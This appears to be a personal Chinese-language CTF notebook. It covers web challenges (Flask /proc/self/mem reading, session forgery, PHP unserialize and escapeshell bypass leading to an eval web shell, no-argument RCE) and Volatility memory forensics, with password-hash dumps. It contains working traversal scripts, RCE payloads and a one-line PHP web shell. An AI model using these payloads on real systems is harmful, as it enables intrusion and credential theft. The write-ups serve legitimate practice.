这是一个文件读取的脚本，可以给定起始位：`start`，结束位：`end`来决定文件读取的长度

```py
import os, sys, getopt


def cat(filename, start=0, end=0) -> bytes:
    data = b''

    try:
        start = int(start)
        end = int(end)
    except:
        start = 0
        end = 0

    if filename != "" and os.access(filename, os.R_OK):
        f = open(filename, "rb")

        if start >= 0:
            f.seek(start)
            if end >= start and end != 0:
                data = f.read(end - start)

            else:
                data = f.read()

        else:
            data = f.read()
            f.close()

    else:
        data = ("File `%s` not exist or can not be read" % filename).encode()

    return data


if __name__ == '__main__':
    opts, args = getopt.getopt(sys.argv[1:], '-h-f:-s:-e:', ['help', 'file=', 'start=', 'end='])
    fileName = "../end.txt"
    start = 0
    end = 0

    for opt_name, opt_value in opts:
        if opt_name == '-h' or opt_name == '--help':
            print("[*] Help")
            print("-f --file File name")
            print("-s --start Start position")
            print("-e --end End position")
            print("[*] Example of reading /etc/passwd")
            print("python3 cat.py -f /etc/passwd")
            print("python3 cat.py --file /etc/passwd")
            print("python3 cat.py -f /etc/passwd -s 1")
            print("python3 cat.py -f /etc/passwd -e 5")
            print("python3 cat.py -f /etc/passwd -s 1 -e 5")
            exit()

        elif opt_name == '-f' or opt_name == '--file':
            fileName = opt_value

        elif opt_name == '-s' or opt_name == '--start':
            start = opt_value

        elif opt_name == '-e' or opt_name == '--end':
            end = opt_value

    if fileName != "":
        print(cat(fileName, start, end))

    else:
        print("No file to read")
```

**cat.py 本地尝试**

```py
import os, sys, getopt


def cat(filename, start=0, end=0) -> bytes:
    data = b''

    try:
        start = int(start)
        end = int(end)
    except:
        start = 0
        end = 0

    if filename != "" and os.access(filename, os.R_OK):
        f = open(filename, "rb")
		# 如果给定起始位，那么将文件光标定位到起始位
        if start >= 0:
            f.seek(start)
            if end >= start and end != 0:
                # 从起始位开始读取长度：长度=结束位-起始位
                data = f.read(end - start)

            else:
                data = f.read()

        else:
            data = f.read()
            f.close()

    else:
        data = ("File `%s` not exist or can not be read" % filename).encode()

    return data


if __name__ == '__main__':
    opts, args = getopt.getopt(sys.argv[1:], '-h-f:-s:-e:', ['help', 'file=', 'start=', 'end='])
    # 给定文件名
    fileName = "../end.txt"
    # 给定起始位
    start = 0
    # 给定结束位
    end = 50

    if fileName != "":
        print(cat(fileName, start, end))

    else:
        print("No file to read")

```

### 3. 解题复现

**抓取内存信息脚本**

在这一步做到了抓取SECRET_KEY，但是无法复现Session伪造！（不知道什么原因）

直接抓Flag的话也抓的到：`catctf{Catch_the_c4t_HaHa}`

最好将关键信息保存到txt文件再做分析，控制台总感觉好像显示bu'quan

```py
import requests
from lxml import etree
import re


# 1. 先读取maps文件
req = requests.get('http://61.147.171.105:60619/info?file=../../../../../proc/self/maps').content

# 2. 将maps文件写入本地：maps.txt
html = etree.HTML(req.decode())
list1 = html.xpath('//div[@class="feature-block"]/p/text()')
# print(list1[0])

# 3. 将得到的结果做格式处理并写入 maps.txt
maps_data = re.search("b'(.*?)'", list1[0])
maps_data = maps_data.group(1)
maps_data = maps_data.replace("\\n", "\n")

with open('maps.txt', 'w') as f:
    f.write(maps_data)

count = 1
# 抓取有权限访问的内存地址：rw-p,并访问
with open('maps.txt', 'r') as maps:
    for line in maps:
        if 'rw-p' in line:
            start = re.search('([0-9a-z]{12})-', line)
            end = re.search('-([0-9a-z]{12})', line)

            # 格式处理
            start = int(str(start.group(1)), 16)
            end = int(str(end.group(1)), 16)

            # 拿到了起始位和结束位，发送请求！
            url = f"http://61.147.171.105:60619/info?file=../../../../../proc/self/mem&start={start}&end={end}"
            mem_data = requests.get(url).content
            print(f"正在发送{count}次请求")
            count += 1

            # 匹配 SECRET_KEY
            # if re.search(b'[a-z0-9]{32}\*abcdefgh', mem_data):
            #     print(mem_data)

            if re.search(b'catctf', mem_data):
                print(mem_data)
                with open('end.txt', 'wb') as f:
                    f.write(mem_data)
```

## BUUOJ [HCTF 2018]admin

### 1. 分析

这题主要考的也是Flask session伪造，进入站点注册账号，在`/index`可以看到提示


在`/change`也有一个提示



他这里的GitHub网址已经访问不了了，因为这里包含着这个网站的源码，如果访问不了就没法做，只能看人家的WP了

在`config.py`里面带有`SECRET_KEY`



在`index.html`里面有着返回flag的条件



### 2. 复现

知道了`SECRET_KEY`就可以伪造Session了，将原来的cookie做解密得到：

`{'_fresh': True, '_id': b'7be77543f7fdd4412dc2bc1d9ae48d46b5af748eaf447a41d456c58a0281e6162f406b1b8a3f4fc528d327229117a39f2c331718c6e06229090558c5a8eabf27', 'csrf_token': b'512005a06dc2271f47a99391e9cc02e759062f10', 'image': b'j01X', 'name': 'test', 'user_id': '10'}`



在`index.html`中可以看到，只要session中的`name`值为`admin`就返回flag！所以把用户改为`admin`即可

```bash
┌──(kali㉿kali)-[~/ctfTool/web/flask-session-cookie-manager]
└─$ python flask_session_cookie_manager3.py encode -s 'ckj123' -t "{'_fresh': True, '_id': b'7be77543f7fdd4412dc2bc1d9ae48d46b5af748eaf447a41d456c58a0281e6162f406b1b8a3f4fc528d327229117a39f2c331718c6e06229090558c5a8eabf27', 'csrf_token': b'512005a06dc2271f47a99391e9cc02e759062f10', 'image': b'j01X', 'name': 'admin', 'user_id': '10'}" 
.eJxFkEGLwjAQhf_KMmcPtq4XwUMgVrYwU7qklORSurXaJo0LVTGN-N83lWX3NPDem48384DqOLaXDjbX8dYuoOoPsHnA2xdsgOJ0IN9ExMlSrIzi-RJFaqRPe-kTk5XJQLwzxFVPZWLJ5-9qnjxfSZG7kI_IYpTtd3fUJ6eEdKTT4LNY6qQPulf600pfTNk-96ibCbVxKA4d-sGiRY9-t0LRabLFnfTHlAm2Rl4EJkZSdIMsUxv2tvBcQHMZj9X127Tn_xPEbkLOQpTFao8B3zil53pmjd6ESoOWnk1KNFFAx2ilQ7Z94Xpbn9o_Uq2ZK3-dc23bWTrY_gwLuF3a8fU3iJbw_AFHom6X.ZVjHzw.mSXkO4n622QtjDNolUC2WE7gVm4
```

最后重放一下：`flag{ac18cd89-3e59-4fa2-8c2c-37ce873b8a0d}`



## BUUOJ [网鼎杯 2020 朱雀组]phpweb

> 这题也不难，就是脑袋没转过来，很多东西没想到

进去看到一个报错，然后就没了，抓包看看（不要难得抓包，求求了），很清楚的看到：`func`为函数名，`p`为参数，后面一定也有一个回调函数



这里一开始是想用`system eval`之类的函数直接执行的，结果又被过滤了，然后想再用一个回调函数来调用`system`函数，但是可恶只有一个传参`p`可以传入

使用`highlight_file`函数把源码读取出

把思路打开，有一个`Test`类，也可以调用函数，那么就可以利用这个`Test`类来做反序列化

```php
<!DOCTYPE html>
<html>
<head>
    <title>phpweb</title>
    <style type="text/css">
        body {
            background: url("bg.jpg") no-repeat;
            background-size: 100%;
        }
        p {
            color: white;
        }
    </style>
</head>

<body>
<script language=javascript>
    setTimeout("document.form1.submit()",5000)
</script>
<p>
    <?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }


    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

	# 只要 func 不为空且不再黑名单内就能执行。
    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
</p>
<form  id=form1 name=form1 action="index.php" method=post>
    <input type=hidden id=func name=func value='date'>
    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
</body>
</html>
```

**反序列化脚本**

```php
<?php

class Test
{
    var $p = "ls /";
    var $func = "system";

    function __destruct()
    {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}


$t = new Test();
echo serialize($t);
```

最后flag在`/tmp/flagoefiu4r93`：`flag{9ebf9a02-7328-470d-9609-8d42f97ec7da}`

payload：`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat+/tmp/flagoefiu4r93";s:4:"func";s:6:"system";}`

## BUUOJ [BUUCTF 2018]Online Tool

### 1. 前置知识

#### 1.1 escapeshellarg 与 escapeshellcmd 原理

+ escapeshellarg：先将 字符串 用引号包裹，期间如果遇到 单引号，会用 \ 转义再用单引号包裹，即：`'\''`
+ escapeshellcmd：反斜线（\）会在以下字符之前插入：&#;`|*?~<>^()[]{}$\、\x0A 和 \xFF。 **' 和 " 仅在不配对儿的时候被转义**

示例：

```bash
<?php
$_GET['host'] = "127.0.0.1'";

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    echo $host."\n";						# 输出：'127.0.0.1'\'''
    $host = escapeshellcmd($host);
    echo $host."\n";						# 输出：'127.0.0.1'\\''\'
}
```

如果是先使用`escapeshellarg`再使用`escapeshellcmd`函数的时候，两个函数相互叠加，相互转义，就有可能被绕过

### 2. 复现

```
payload：' <?php @eval($_POST["cmd"]);?> -oG yjh.php '
```

这条payload经过转义之后，会外把外面两个单引号闭合`'`

```php
<?php
$_GET['host'] = "' 1 '";

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    echo $host."\n";					# 输出：''\'' 1 '\'''
    $host = escapeshellcmd($host);
    echo $host."\n";					# 输出：''\\'' 1 '\\'''，单引号干好成对出现闭合
}
```

对于中间部分，也会刚好有一个`\`做转义，使得一句话木马写入成功

```bash
<?php
$_GET['host'] = '<?php @eval($_POST["cmd"]);?> -oG yjh.php';

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);			
    echo $host."\n";							# 输出：'<?php @eval($_POST["cmd"]);?> -oG yjh.php'
    $host = escapeshellcmd($host);
    echo $host."\n";					# 输出：'\<\?php @eval\(\$_POST\[\"cmd\"\]\)\;\?\> -oG yjh.php'
}
```

最后使用蚁剑连接即可！

## BUUOJ [GXYCTF2019]禁止套娃

### 1. 复现

进来没有什么头绪，看HTTP报文也没有什么东西。此时只能做一个目录爆破




发现有一个`.git`文件夹，直接用`githacker`导出来，发现源码！

```bash
┌──(root㉿kali)-[/home/kali/ctfTool/web/GitHack]
└─# python GitHack.py http://3309502c-0f7b-42e5-bfbb-3136abbc9efe.node4.buuoj.cn:81/.git/
[+] Download and parse index file ...
[+] index.php
[OK] index.php
```

整个源码主要要注意的位置是第二条正则过滤，只要绕过这条其他的都好说！

```php
<?php
$_GET['exp'] = 'session_start();';
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                 echo $_GET['exp'];
//                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);

```

第二条正则是CTF无参数RCE考点的主要写法，还有一种写法是：`/[^\W]+\((?R)?\)/`

```
/[a-z,_]+\((?R)?\)/

[a-z,_]+：匹配多个小写字母
\(：匹配 (
\)：匹配 )
?R：递归匹配。能匹配 a(b(c()))
总结：匹配所有不带参数的函数
```

翻翻葵花宝典，原来学过！再初略复习了一下之后写出了第一条payload：

```
payload1：show_source(array_rand(array_flip(scandir(current(localeconv())))));		# 随机
payload2：show_source(next(array_reverse(scandir(current(localeconv())))));
```

这里稍微解释一下：

```php
<?php
var_dump(localeconv());

# 输出：
array(18) {
  'decimal_point' =>
  string(1) "."						# 主要是这里，能拿到一个“.”，基于这个点就可以扫描当前目录
  'thousands_sep' =>
  string(0) ""
  'int_curr_symbol' =>
  string(0) ""
  'currency_symbol' =>
  string(0) ""
  'mon_decimal_point' =>
  string(0) ""
  'mon_thousands_sep' =>
  string(0) ""
  'positive_sign' =>
  string(0) ""
  'negative_sign' =>
  string(0) ""
  'int_frac_digits' =>
  int(127)
  'frac_digits' =>
  int(127)
  'p_cs_precedes' =>
  int(127)
  'p_sep_by_space' =>
  int(127)
  'n_cs_precedes' =>
  int(127)
  'n_sep_by_space' =>
  int(127)
  'p_sign_posn' =>
  int(127)
  'n_sign_posn' =>
  int(127)
  'grouping' =>
  array(0) {
  }
  'mon_grouping' =>
  array(0) {
  }
}
```


# Misc

## János-the-Ripper-隐写-压缩包密码破解

发现一个压缩文件在里面

```bash
┌──(pinginglab㉿pinginglab)-[~/桌面/ctf]
└─$ binwalk misc100 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Zip archive data, encrypted at least v2.0 to extract, compressed size: 39, uncompressed size: 25, name: flag.txt
131           0x83            End of Zip archive, footer length: 22

```

`foremost`导出来，里面有一个加密的压缩文件

```bash
┌──(pinginglab㉿pinginglab)-[~/桌面/ctf]
└─$ foremost misc100
Processing: misc100
|foundat=flag.txt
*|
┌──(pinginglab㉿pinginglab)-[~/桌面/ctf/output/zip]
└─$ ls
00000000.zip

```

`fcrackzip`爆破密码

```bash
# -b 爆破 -c 指定字符集为小写字母 -l 指定长度 -u 过滤错误密码
┌──(pinginglab㉿pinginglab)-[~/桌面/ctf/output/zip]
└─$ fcrackzip -b -c 'a' -l 4 -u 00000000.zip 


PASSWORD FOUND!!!!: pw == fish

```

解压缩得到密码

```bash
┌──(pinginglab㉿pinginglab)-[~/桌面/ctf/output/zip]
└─$ unzip 00000000.zip 
Archive:  00000000.zip
[00000000.zip] flag.txt password: 
  inflating: flag.txt                
                                                                                                                                                    
┌──(pinginglab㉿pinginglab)-[~/桌面/ctf/output/zip]
└─$ ls
00000000.zip  flag.txt
                                                                                                                                                    
┌──(pinginglab㉿pinginglab)-[~/桌面/ctf/output/zip]
└─$ cat flag.txt 
flag{ev3n::y0u::bru7us?!} 
```

# 数字取证

## 1. 不知道哪里的题目

> 内存文件下载连接：链接：https://pan.baidu.com/s/1xEV5bnB12C_qYp3fTb98Lg?pwd=q8rr 提取码：q8rr
>
> 工具 Volatility 自行下载安装

**1.1 分析镜像文件**

```bash
┌──(pinginglab㉿pinginglab)-[~/桌面/Cliente]
└─$ vol.py -f mem.dump imageinfo                                                
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/pinginglab/桌面/Cliente/mem.dump)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf80003e02110L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff80003e03d00L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2019-11-13 08:39:44 UTC+0000
     Image local date and time : 2019-11-13 16:39:44 +0800
```

**1.2 常规进程分析**

这里直接使用`Win7SP1x64`就好，可以看到启动了cmd

```bash
┌──(pinginglab㉿pinginglab)-[~/桌面/Cliente]
└─$ vol.py -f mem.dump --profile=Win7SP1x64 pslist |grep cmd  
Volatility Foundation Volatility Framework 2.6.1
0xfffffa800ea75b10 cmd.exe                2260   2316      1       20      1      0 2019-11-13 08:33:45 UTC+0000
```

**1.3 分析cmd**

```bash
┌──(pinginglab㉿pinginglab)-[~/桌面/Cliente]
└─$ vol.py -f mem.dump --profile=Win7SP1x64 --help |grep "cmd"
Volatility Foundation Volatility Framework 2.6.1
  cmdline         Display process command-line arguments
  cmdscan         Extract command history by scanning for _COMMAND_HISTORY

┌──(pinginglab㉿pinginglab)-[~/桌面/Cliente]
└─$ vol.py -f mem.dump --profile=Win7SP1x64 cmdscan             
Volatility Foundation Volatility Framework 2.6.1
**************************************************
CommandProcess: conhost.exe Pid: 2632
CommandHistory: 0x242350 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 1 LastAdded: 0 LastDisplayed: 0
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x60
# 这里发现提示，flag.ccx密码是管理员的密码
Cmd #0 @ 0x2229d0: flag.ccx_password_is_same_with_Administrator 
**************************************************
CommandProcess: conhost.exe Pid: 2748
CommandHistory: 0x2926d0 Application: DumpIt.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x60
```

**1.4 解密管理员密码**

Windows 的密码是保存在SAM文件中的，`hashdump`下载哈希

1. **用户名**：在这个例子中是`Administrator`。
2. **用户ID**：在这个例子中是`500`。
3. **LM散列**：在这个例子中是`6377a2fdb0151e35b75e0c8d76954a50`。
4. **NTLM散列**：在这个例子中是`0d546438b1f4c396753b4fc8c8565d5b`。
5. **评论**：在这个例子中为空。
6. **主目录**：在这个例子中为空。

```bash
┌──(pinginglab㉿pinginglab)-[~/桌面/Cliente]
└─$ vol.py -f mem.dump --profile=Win7SP1x64 hashdump
Volatility Foundation Volatility Framework 2.6.1
Administrator:500:6377a2fdb0151e35b75e0c8d76954a50:0d546438b1f4c396753b4fc8c8565d5b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

**1.5 CMD5解密获得密码**



**1.6 寻找flag.cxx文件**

```bash
┌──(pinginglab㉿pinginglab)-[~/桌面/Cliente]
└─$ vol.py -f mem.dump --profile=Win7SP1x64 filescan |grep "flag"
Volatility Foundation Volatility Framework 2.6.1
0x000000003e435890     15      0 R--rw- \Device\HarddiskVolume2\Users\Administrator\Desktop\flag.ccx
```

**1.7 下载文件**

```bash
┌──(pinginglab㉿pinginglab)-[~/桌面/Cliente]
└─$ vol.py -f mem.dump --profile=Win7SP1x64 dumpfiles -Q 0x000000003e435890 -D .
Volatility Foundation Volatility Framework 2.6.1
DataSectionObject 0x3e435890   None   \Device\HarddiskVolume2\Users\Administrator\Desktop\flag.ccx
```

**1.8 加密磁盘挂载**

成功提取出文件，根据查询ccx可以使用挂载系统加密卷的方式进行访问，可以使用CnCrypt进行加载



**1.9 获取flag**



## [otterctf] What the password-查找用户密码

**1. 使用hashdump查看用户哈希**

尝试放在其他在线解密网站，但是无法成功解密

```
┌──(pinginglab㉿pinginglab)-[~/桌面]
└─$ vol.py -f OtterCTF.vmem --profile=Win7SP1x64 hashdump                                            
Volatility Foundation Volatility Framework 2.6.1
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Rick:1000:aad3b435b51404eeaad3b435b51404ee:518172d012f97d3a8fcc089615283940:::
```

**2. 使用lasdump解密哈希**

lsadump：从注册表中提取LSA密钥信息,显示加密以后的数据用户密码

```
┌──(pinginglab㉿pinginglab)-[~/桌面]
└─$ vol.py -f OtterCTF.vmem --profile=Win7SP1x64 lsadump 
Volatility Foundation Volatility Framework 2.6.1
DefaultPassword
0x00000000  28 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   (...............
0x00000010  4d 00 6f 00 72 00 74 00 79 00 49 00 73 00 52 00   M.o.r.t.y.I.s.R.
0x00000020  65 00 61 00 6c 00 6c 00 79 00 41 00 6e 00 4f 00   e.a.l.l.y.A.n.O.
0x00000030  74 00 74 00 65 00 72 00 00 00 00 00 00 00 00 00   t.t.e.r.........
```

```
 flag:CTF{MortyIsReallyAnOtter}
```

## [otterctf] General Info-查找IP地址和主机名

**netscan 查看IP地址**

==netscan=netstat==

```
┌──(pinginglab㉿pinginglab)-[~/桌面]
└─$ vol.py -f OtterCTF.vmem --profile=Win7SP1x64 netscan
Volatility Foundation Volatility Framework 2.6.1
Offset(P)          Proto    Local Address                  Foreign Address      State            Pid      Owner          Created
0x7d60f010         UDPv4    0.0.0.0:1900                   *:*                                   2836     BitTorrent.exe 2018-08-04 19:27:17 UTC+0000
0x7d62b3f0         UDPv4    192.168.202.131:6771           *:*                                   2836     BitTorrent.exe 2018-08-04 19:27:22 UTC+0000
0x7d62f4c0         UDPv4    127.0.0.1:62307                *:*                                   2836     BitTorrent.exe 2018-08-04
```

```
 flag:CTF{192.168.202.131}
```

**查看主机名**

主机名等计算机相关信息都会保存在注册表中

```bash
# 查看注册表
┌──(pinginglab㉿pinginglab)-[~/桌面]
└─$ vol.py -f OtterCTF.vmem --profile=Win7SP1x64  hivelist
Volatility Foundation Volatility Framework 2.6.1
Virtual            Physical           Name
------------------ ------------------ ----
0xfffff8a00377d2d0 0x00000000624162d0 \??\C:\System Volume Information\Syscache.hve
0xfffff8a00000f010 0x000000002d4c1010 [no name]
0xfffff8a000024010 0x000000002d50c010 \REGISTRY\MACHINE\SYSTEM
0xfffff8a000053320 0x000000002d5bb320 \REGISTRY\MACHINE\HARDWARE
0xfffff8a000109410 0x0000000029cb4410 \SystemRoot\System32\Config\SECURITY
0xfffff8a00033d410 0x000000002a958410 \Device\HarddiskVolume1\Boot\BCD
0xfffff8a0005d5010 0x000000002a983010 \SystemRoot\System32\Config\SOFTWARE
0xfffff8a001495010 0x0000000024912010 \SystemRoot\System32\Config\DEFAULT
0xfffff8a0016d4010 0x00000000214e1010 \SystemRoot\System32\Config\SAM
0xfffff8a00175b010 0x00000000211eb010 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
0xfffff8a00176e410 0x00000000206db410 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
0xfffff8a002090010 0x000000000b92b010 \??\C:\Users\Rick\ntuser.dat
0xfffff8a0020ad410 0x000000000db41410 \??\C:\Users\Rick\AppData\Local\Microsoft\Windows\UsrClass.dat

# 主机名一般保存在SYSTEM中
# 这里显示的是SYSTEM下的子键，继续向下找
┌──(pinginglab㉿pinginglab)-[~/桌面]
└─$ vol.py -f OtterCTF.vmem --profile=Win7SP1x64  -o 0xfffff8a000024010 printkey
Volatility Foundation Volatility Framework 2.6.1
Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \REGISTRY\MACHINE\SYSTEM
Key name: CMI-CreateHive{2A7FB991-7BBE-4F9D-B91E-7CB51D4737F5} (S)
Last updated: 2018-08-04 19:25:54 UTC+0000

Subkeys:
  (S) ControlSet001
  (S) ControlSet002
  (S) MountedDevices
  (S) RNG
  (S) Select
  (S) Setup
  (S) Software
  (S) WPA
  (V) CurrentControlSet

Values:

# 继续向下找
┌──(pinginglab㉿pinginglab)-[~/桌面]
└─$ vol.py -f OtterCTF.vmem --profile=Win7SP1x64  -o 0xfffff8a000024010 -K "ControlSet001" printkey
Volatility Foundation Volatility Framework 2.6.1
Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \REGISTRY\MACHINE\SYSTEM
Key name: ControlSet001 (S)
Last updated: 2018-06-02 19:23:00 UTC+0000

Subkeys:
  (S) Control
  (S) Enum
  (S) Hardware Profiles
  (S) Policies
  (S) services

Values:


# 继续向下找
┌──(pinginglab㉿pinginglab)-[~/桌面]
└─$ vol.py -f OtterCTF.vmem --profile=Win7SP1x64  -o 0xfffff8a000024010 -K "ControlSet001\\Control" printkey
Volatility Foundation Volatility Framework 2.6.1
Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \REGISTRY\MACHINE\SYSTEM
Key name: Control (S)
Last updated: 2018-08-04 19:26:03 UTC+0000

Subkeys:
  (S) ACPI
  (S) AGP
  (S) AppID
  (S) Arbiters
  (S) BackupRestore
  (S) Class
  (S) CMF
  (S) CoDeviceInstallers
  (S) COM Name Arbiter
  (S) ComputerName
  
 # 继续向下找
 ┌──(pinginglab㉿pinginglab)-[~/桌面]
└─$ vol.py -f OtterCTF.vmem --profile=Win7SP1x64  -o 0xfffff8a000024010 -K "ControlSet001\\Control\\ComputerName" printkey
Volatility Foundation Volatility Framework 2.6.1
Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \REGISTRY\MACHINE\SYSTEM
Key name: ComputerName (S)
Last updated: 2018-08-04 19:26:11 UTC+0000

Subkeys:
  (S) ComputerName
  (V) ActiveComputerName

Values:

# 发现主机名：WIN-LO6FAF3DTFE
┌──(pinginglab㉿pinginglab)-[~/桌面]
└─$ vol.py -f OtterCTF.vmem --profile=Win7SP1x64  -o 0xfffff8a000024010 -K "ControlSet001\\Control\\ComputerName\\ComputerName" printkey
Volatility Foundation Volatility Framework 2.6.1
Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \REGISTRY\MACHINE\SYSTEM
Key name: ComputerName (S)
Last updated: 2018-06-02 19:23:00 UTC+0000

Subkeys:

Values:
REG_SZ                        : (S) mnmsrvc
REG_SZ        ComputerName    : (S) WIN-LO6FAF3DTFE

```

```
flag:CTF{WIN-LO6FAF3DTFE}
```

## [otterctf] Silly Rick-查看剪贴板内容

**查看粘贴板**

```
┌──(pinginglab㉿pinginglab)-[~/桌面]
└─$ vol.py -f OtterCTF.vmem --profile=Win7SP1x64 clipboard
Volatility Foundation Volatility Framework 2.6.1
Session    WindowStation Format                         Handle Object             Data                                              
---------- ------------- ------------------ ------------------ ------------------ --------------------------------------------------
         1 WinSta0       CF_UNICODETEXT                0x602e3 0xfffff900c1ad93f0 M@il_Pr0vid0rs                                    
         1 WinSta0       CF_TEXT                          0x10 ------------------                                                   
         1 WinSta0       0x150133L              0x200000000000 ------------------                                                   
         1 WinSta0       CF_TEXT                           0x1 ------------------                                                   
         1 ------------- ------------------           0x150133 0xfffff900c1c1adc0 
```

## [otterctf] Hide And Seek-查找病毒

这里发现一个可疑程：`mware-tray.ex`，父进程是：`Rick And Morty`

```bash
┌──(pinginglab㉿pinginglab)-[~/桌面]
└─$ vol.py -f OtterCTF.vmem --profile=Win7SP1x64 pslist         
Volatility Foundation Volatility Framework 2.6.1
Offset(V)          Name                    PID   PPID   Thds     Hnds   Sess  Wow64 Start                          Exit                          
------------------ -------------------- ------ ------ ------ -------- ------ ------ ------------------------------ -----------------
0xfffffa801b486b30 Rick And Morty         3820   2728      4      185      1      1 2018-08-04 19:32:55 UTC+0000                                 
0xfffffa801a4c5b30 vmware-tray.ex         3720   3820      8      147      1      1 2018-08-04 19:33:02 UTC+0000   
```

使用`dlllist`查看程序的动态链接库，可发现是在TEMP路径下执行的

```
┌──(pinginglab㉿pinginglab)-[~/桌面]
└─$ vol.py -f OtterCTF.vmem --profile=Win7SP1x64 dlllist -p 3720
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
vmware-tray.ex pid:   3720
Command line : "C:\Users\Rick\AppData\Local\Temp\RarSFX0\vmware-tray.exe" 

```

